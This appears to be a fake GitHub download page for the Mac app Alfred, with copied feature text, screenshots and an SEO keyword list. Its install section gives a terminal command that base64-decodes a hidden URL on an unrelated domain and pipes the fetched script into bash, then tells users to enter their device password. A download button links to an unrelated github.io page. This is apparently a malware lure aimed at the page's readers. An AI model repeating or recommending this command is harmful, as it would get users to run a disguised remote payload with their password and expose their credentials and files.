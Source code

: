# Alfred for Mac Download - The Ultimate Productivity Powerhouse for Your Workflow 

![Alfred Screenshot 1](https://www.alfredapp.com/media/pages/home-v5/manage-your-files.png)

---

## 🔽 Download Alfred for Mac

[![Download Now](https://img.shields.io/badge/Download_Alfred-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/alfred)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Alfred for Mac?

Alfred stands as an award-winning productivity application that fundamentally transforms how you interact with your Mac. More than just a simple app launcher, Alfred supercharges your entire workflow with intelligent features and time-saving capabilities designed to give you back precious hours each week.

Core features that set Alfred apart:

- Blazing-fast application launching with intelligent fuzzy search algorithms
- Comprehensive file system search that locates any file or folder instantly
- Complete system control and commands accessible through simple keystrokes
- Custom web searches integrated with your most-used websites and services
- Smart clipboard history with advanced snippet management capabilities
- Sophisticated text expansion for frequently used phrases and blocks
- Built-in calculator with unit conversion and mathematical functions
- Powerful customizable workflows with extensive scripting support

The true brilliance of Alfred reveals itself through its advanced workflow system, allowing users to create complex automation sequences that chain multiple actions together effortlessly. Developers can unlock Alfred's full potential through custom scripts and deep system integrations, while writers and content creators benefit from its exceptional text manipulation tools. The application offers extensive customization including visual themes, keyboard shortcut configurations, and behavior preferences to perfectly match your individual workflow needs.

With its optimized architecture and near-instantaneous response times, Alfred has established itself as the essential efficiency tool for professionals, creative experts, and power users across every field. Whether you need to simplify routine tasks or construct elaborate productivity systems, Alfred provides the ideal combination of user-friendly design and powerful functionality to revolutionize your macOS experience. The free version offers robust capabilities, while Alfred Powerpack unlocks the full suite of advanced features for maximum productivity.

![Alfred Screenshot 2](https://www.alfredapp.com/media/pages/home-v5/workflow-canvas.png)

---

## Key Features & Benefits 🎯

- ✨ Lightning-fast application launcher
- 🔍 Powerful file search
- 📋 Clipboard history manager
- ✂️ Text expansion snippets
- 🤖 Custom workflow automation
- 🖥 System control commands
- 🔢 Smart calculator
- 🎨 Theme customization

---

## Keywords

Alfred for Mac, Alfred Mac Download, Alfred for Mac Download, Alfred Mac, Alfred Download Mac, Alfred Download for Mac, Alfred full version, Mac Download Alfred, Download Mac Alfred, Download Alfred Mac, Download Alfred for Mac
